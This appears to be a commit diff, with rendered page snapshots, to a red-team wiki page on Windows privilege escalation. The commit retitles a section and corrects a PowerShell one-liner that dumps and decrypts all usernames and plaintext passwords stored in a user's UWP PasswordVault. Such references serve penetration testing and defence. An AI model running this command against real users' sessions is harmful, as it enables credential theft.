

Before and after one commit to swisskyrepo/InternalAllTheThings, an MkDocs documentation site: the page built from docs/redteam/escalation/windows-privilege-escalation.md, in a window 1280 px wide. Shown: the part 469-2357 px from the top of the page at 70% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; emoji names are drawn with the system emoji font; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Fix formatting and update UWP PasswordVault section

````diff
--- a/docs/redteam/escalation/windows-privilege-escalation.md
+++ b/docs/redteam/escalation/windows-privilege-escalation.md
@@ -20,7 +20,7 @@
     * [Sticky Notes passwords](#sticky-notes-passwords)
     * [Passwords stored in services](#passwords-stored-in-services)
     * [Passwords stored in Key Manager](#passwords-stored-in-key-manager)
-    * [Passwords stored in UWP PasswordVault / Credential Locker](#passwords-stored-in-uwp-passwordvault--credential-locker)
+    * [Passwords stored in UWP PasswordVault](#passwords-stored-in-uwp-passwordvault)
     * [Powershell History](#powershell-history)
     * [Powershell Transcript](#powershell-transcript)
     * [Password in Alternate Data Stream](#password-in-alternate-data-stream)
@@ -539,14 +539,14 @@
 rundll32 keymgr,KRShowKeyMgr
 ```
 
-### Passwords stored in UWP PasswordVault / Credential Locker
+### Passwords stored in UWP PasswordVault
 
 Modern Windows UWP applications, Microsoft Edge, and modern system services store authentication tokens and plaintext passwords inside the Universal Windows Platform (UWP) `PasswordVault` (also exposed as `Web Credentials` in `vaultcmd`). This storage space is session-isolated and can be decrypted natively without administrative or `SeDebugPrivilege` rights.
 
 Execute this PowerShell command inside the user's active session to instantly dump and decrypt all stored usernames and plaintext passwords:
 
 ```ps1
-[void][Windows.Security.Credentials.PasswordVault,Windows.Security.Credentials,ContentType=WindowsRuntime]; v = New-Object Windows.Security.Credentials.PasswordVault; v.RetrieveAll() | ForEach-Object { try { \(_.RetrievePassword();\)_ } catch{} } | Select-Object Resource, UserName, Password | Format-List
+[void][Windows.Security.Credentials.PasswordVault,Windows.Security.Credentials,ContentType=WindowsRuntime]; $v = New-Object Windows.Security.Credentials.PasswordVault; $v.RetrieveAll() | ForEach-Object { try { $_.RetrievePassword(); $_ } catch {} } | Select-Object Resource, UserName, Password | Format-List
 ```
 
 ### Powershell History
````
